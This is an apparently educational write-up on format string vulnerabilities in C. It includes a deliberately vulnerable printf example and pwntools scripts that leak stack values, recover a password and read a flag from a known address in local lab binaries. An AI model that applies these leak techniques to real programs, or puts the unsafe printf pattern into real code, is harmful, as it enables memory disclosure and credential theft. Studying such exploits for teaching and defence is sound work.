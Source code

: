 # Format String Exploits

A format string vulnerability is a bug where user input is passed as the format argument to printf, scanf, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to printf. Since printf and similar are variadic functions, they will continue popping data off of the stack according to the format.

Example:
```c
#include <stdio.h>
#include <unistd.h>

int main() {
    int secret_num = 0x8badf00d;

    char name[64] = {0};
    read(0, name, 64);
    printf("Hello ");
    printf(name);
    printf("! You'll never get my secret!\n");
    return 0;
}
```
Due to how GCC decided to lay out the stack, secret_num is actually at a lower address on the stack than name, so we only have to go to the 7th "argument" in printf to leak the secret:

```bash
$ ./fmt_string
%7$llx
Hello 8badf00d3ea43eef
! You'll never get my secret!
```

# Format Strings - Arbitrary Read 
## TYPE 1
In basic lavel we just have to leak the memory ,here is an example :

![image](https://github.com/user-attachments/assets/d07c0a0f-788b-40bb-8aa7-8e475989ae2d)

Here we are getting the same thing that we are inputing lets try %x,%p,%s,%llx to find is it a formatstring vurnabilty.
![image](https://github.com/user-attachments/assets/e1c95c23-f0de-41ee-8ed1-48af83ec08eb)
yes it is, lets leak more
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    payload = f'%{i}$p'
    io.sendline(payload)
    print(io.recvall())
```
![image](https://github.com/user-attachments/assets/f4d233c0-3c8e-4c11-8d65-ab6f7a144efc)

And After From Hex the password is : Pa$$w0rd_1s_0n_Th3_St4ck
![image](https://github.com/user-attachments/assets/5d1d462a-8acd-4ac7-87e7-8416602aceec)


## TYPE 2
Here is a another type after the password there is another input
![image](https://github.com/user-attachments/assets/02d92cac-7c24-4bf1-b5ea-ac8facc20fa9)
Lets check
![image](https://github.com/user-attachments/assets/c5a9b899-a84d-425f-9769-dc3e1b070d82)
Yes we can do the same but now our task is to leak flag from the given address . so is short wht we have to do is we have to find the offset and put the flag address to leak the flag .

![image](https://github.com/user-attachments/assets/0797952a-ee32-45f0-abf6-6146fd4d3823)

```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
    payload = f'AAAAAAAA.%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```
Here 16 is our offset.So lets find the flag.
![image](https://github.com/user-attachments/assets/ba9ecc61-46cf-427a-b3d3-1923529208ca)
Here we go 
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'


io = process('./fmt_read')
io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
payload = b'%17$sAAA' + p64(0x404080)
io.sendline(payload)
io.interactive()


# nm ./fmt_read  fr address
```

